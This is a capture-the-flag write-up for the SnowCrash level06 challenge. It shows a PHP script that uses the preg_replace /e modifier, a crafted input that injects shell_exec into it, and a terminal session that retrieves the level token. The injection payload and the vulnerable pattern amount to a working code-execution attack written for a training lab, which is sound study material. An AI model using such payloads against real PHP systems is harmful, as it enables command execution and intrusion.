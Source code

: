 # Snowcrash06

This time we have a binary as well as a php file.

```php
#!/usr/bin/php
<?php
function y($key)
{   $key = preg_replace("/\./", " x ", $key);
    $key = preg_replace("/@/", " y", $key);
    print "here";
    return $key;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
    $r = x($argv[1], $argv[2]);
    print $r;
?>

```

While the code looks pretty harmless at first glance and just prints what's in the path passed by argument after doing a bunch of regex

After careful inspection we can see that there is a e flag in regex and this flag actually interprets code !

We just have to be able to reach it

It looks something like that
```sh
[x {${shell_exec(getflag)}} ]
```

```sh
level06:~$ echo '[x {${shell_exec(getflag)}} ]' > /tmp/t
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
